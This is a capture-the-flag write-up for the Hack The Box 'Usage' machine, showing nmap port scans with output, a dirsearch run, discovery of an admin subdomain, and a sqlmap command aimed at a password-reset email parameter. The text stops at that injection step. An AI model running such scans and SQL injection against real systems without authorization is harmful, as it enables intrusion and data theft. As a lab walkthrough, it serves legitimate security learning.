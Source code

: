 # Usage Write-up

<img src="https://labs.hackthebox.com/storage/avatars/23e804513a47e8f20bc865d0419946e1.png" width="200" height="200">

## Nmap

`nmap -sC -sV -p- usage.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Daily Blogs
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

`nmap -sC -sV -p- usage.htb`

    PORT      STATE    SERVICE        VERSION
    22/tcp    open     ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp    open     http           nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://usage.htb/
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    2403/tcp  filtered taskmaster2000
    3814/tcp  filtered neto-dcs
    4117/tcp  filtered hillrserv
    5902/tcp  filtered vnc-2
    8045/tcp  filtered unknown
    13399/tcp filtered unknown
    17530/tcp filtered unknown
    17551/tcp filtered unknown
    20279/tcp filtered unknown
    20295/tcp filtered unknown
    20541/tcp filtered unknown
    21060/tcp filtered unknown
    22856/tcp filtered unknown
    39584/tcp filtered unknown
    41538/tcp filtered unknown
    43643/tcp filtered unknown
    44553/tcp filtered rbr-debug
    58049/tcp filtered unknown
    58201/tcp filtered unknown
    58432/tcp filtered unknown
    58715/tcp filtered unknown
    58989/tcp filtered unknown
    64790/tcp filtered unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `usage.htb` to `/etc/hosts`

## Dirsearch

`python3 dirsearch.py -u http://usage.htb/ --exclude-status 403,404,400,401,503 -o dir`

    Target: http://usage.htb/
    
    [07:05:38] Starting:                                                                                                                  
    [07:07:13] 302 -  334B  - /dashboard/  ->  http://usage.htb/login           
    [07:08:21] 200 -   24B  - /robots.txt                                       
                                                                                 
    Task Completed                                                                                                                        
                                         
http://usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/3483821e-2005-4105-aabf-409e5547619e)

Create accaount and login

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c090840-9d55-4309-8c41-275ec38baf12)

In the source page we found `admin.usage.htb` subdomain

![image](https://github.com/zer00d4y/writeups/assets/128820441/d7bf8248-0170-465e-bbed-da9b7542902b)

Add `admin.usage.htb` to `/etc/hosts`

http://admin.usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/769b529d-c707-4708-b870-cf16138a1efa)

## SQLmap

Let's try to reset the password and save the request to Burp

![image](https://github.com/zer00d4y/writeups/assets/128820441/b7181ba7-3777-45a9-8af2-93fbc4dcf724)

    sqlmap -r request -p email --batch --level 5 --risk 3 --dbms=mysql --dbs

